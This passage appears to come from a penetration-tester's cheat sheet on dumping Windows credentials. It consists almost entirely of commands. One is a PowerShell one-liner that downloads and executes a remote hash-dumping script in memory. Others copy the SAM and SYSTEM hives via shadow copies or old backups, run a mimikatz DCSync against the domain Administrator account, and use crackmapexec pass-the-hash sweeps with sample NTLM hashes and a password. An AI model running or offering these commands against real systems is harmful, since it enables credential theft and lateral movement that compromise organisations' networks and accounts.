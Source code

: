<pre data-overflow="wrap"><code><strong>powershell.exe -nop -exec bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://172.16.1.30/Invoke-PowerDump.ps1'); Invoke-Powerdump"
</strong></code></pre>

{% hint style="info" %}
When have admin but not accessible SAM & SYSTEM, create a shadow copy and dump&#x20;
{% endhint %}

{% code overflow="wrap" %}
```
wmic shadowcopy call create Volume='C:\'
vssadmin.exe list shadows
(check shadow copy volume path eg \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3)

mkdir C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\temp\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\temp\SAM

cd C:\temp && dir
```
{% endcode %}

{% hint style="info" %}
if no admin priv, may try look for .OLD SAM & SYSTEM

commonly in `C:\Windows\System32\Config`, `C:\Windows\System32\Repair`, or `C:\Windows\System32\Config\Regback`
{% endhint %}

```

cd C:\ & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK

icacls C:\Windows\System32\Config\SYSTEM.OLD
icacls C:\Windows\System32\Config\SAM.OLD
cp C:\Windows\System32\Config\SYSTEM.OLD C:\tmp
cp C:\Windows\System32\Config\SAM.OLD C:\tmp

cd C:\tmp && dir
```

### Domain password dump

`/user:target` e.g. built-in domain admin acct `Administrator`; or `/all`

{% code overflow="wrap" %}
```
.\mimikatz.exe "lsadump::dcsync /user:Administrator (/csv)" "exit"
```
{% endcode %}

#### Check where the credentials can be used

{% code overflow="wrap" %}
```
(Pwned = admin on the machine)
smb <-> winrm

crackmapexec smb 192.168.200.0/24 -u calcock -H 924572879ba3b163cc44e0abc5af208a --local-auth

crackmapexec smb 192.168.200.0/24 -u bwallis -d KUDOS.local -p P@ssWord!

crackmapexec smb 172.16.1.100 172.16.1.200 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth --continue-on-success

(check against DC, pwned = own with psexec)
crackmapexec smb 172.16.1.5 -u nessex -H 0d53464368d5e2b607cd68ea29a8cc5f
crackmapexec winrm 172.16.1.5 -u nessex -H 0d53464368d5e2b607cd68ea29a8cc5f
```